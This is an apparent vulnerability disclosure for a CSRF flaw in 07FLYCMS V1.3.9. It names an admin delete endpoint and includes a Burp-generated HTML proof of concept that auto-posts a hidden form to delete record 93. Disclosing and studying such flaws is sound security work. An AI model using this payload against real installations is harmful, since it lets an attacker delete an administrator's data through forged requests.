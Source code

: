 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/admin/SysNotifyUser/del.html?id=93

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/admin/SysNotifyUser/del.html?id=93" method="POST">
      <input type="hidden" name="id" value="93" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

